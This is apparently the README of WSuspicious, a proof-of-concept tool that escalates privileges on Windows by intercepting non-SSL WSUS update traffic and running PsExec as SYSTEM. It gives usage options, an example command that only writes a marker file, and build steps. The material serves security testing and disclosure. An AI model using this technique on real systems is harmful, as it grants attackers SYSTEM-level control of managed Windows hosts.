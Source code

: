 # WSuspicious

## Summary
This is a proof of concept program to escalate privileges on a Windows host using non-SSL WSUS traffic.
It was inspired from the WSuspect proxy project: https://github.com/ctxis/wsuspect-proxy

## Usage
The tool was tested on Windows 10 machines (10.0.18363 and 10.0.17763) in different domain environments.

```
Usage: WSuspicious [OPTION]...
    Ex. WSuspicious.exe /command:" -accepteula -s -d cmd /c ""echo 1 > C:\\wsuspicious.txt""" /autoinstall
    
Creates a local proxy to intercept WSUS requests and try to escalate privileges.
If launched without any arguments, the script will simply create the file C:\\wsuspicious.was.here

    /exe                The full path to the executable to run
                        Known payloads are bginfo and PsExec. (Default: .\PsExec64.exe)
    /command            The command to execute (Default: -accepteula -s -d cmd /c "echo 1 > C:\\wsuspicious.was.here")
    /debug              Increase the verbosity of the tool
    /autoinstall        Start Windows updates automatically after the proxy is started.
    /help               Display this help and exit
```

### Examples
![WSuspicious Privesc Example](https://raw.githubusercontent.com/GoSecure/WSuspicious/master/docs/privesc.gif)

## Compilation
The ILMerge dependency can be used to compile the application into a standalone .exe file.
To compile and compile the application, simply use the following command:
```
dotnet msbuild /t:Restore /t:Clean /t:Build /p:Configuration=Release /p:DebugSymbols=false /p:DebugType=None /t:ILMerge /p:TrimUnusedDependencies=true
```
